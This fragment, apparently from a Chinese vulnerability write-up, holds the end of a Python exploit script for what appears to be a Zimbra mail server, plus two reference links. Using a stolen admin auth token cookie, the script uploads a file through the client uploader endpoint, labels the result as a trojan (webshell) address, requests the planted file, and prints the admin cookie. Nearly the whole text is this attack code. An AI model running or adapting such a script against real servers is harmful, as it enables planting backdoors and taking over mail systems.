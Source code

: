     headers ={
        "Cookie":"ZM_ADMIN_AUTH_TOKEN="+admin_token
    }
    print("[*] 木马地址")
    r = requests.post(base_url+"/service/extension/clientUploader/upload",files=f,headers=headers,verify=False)
    #print(r.text)
    print(base_url+"/downloads/"+filename)

    #print("[*] Request Result:")
    s = requests.session()
    r = s.get(base_url+"/downloads/"+filename,verify=False,headers=headers)
    #print(r.text)
    print("[*] 管理员cookie")
    print(headers['Cookie'])

参考链接
--------

> https://www.cnblogs.com/dgjnszf/p/10793604.html
>
> https://xz.aliyun.com/t/7991\#toc-1

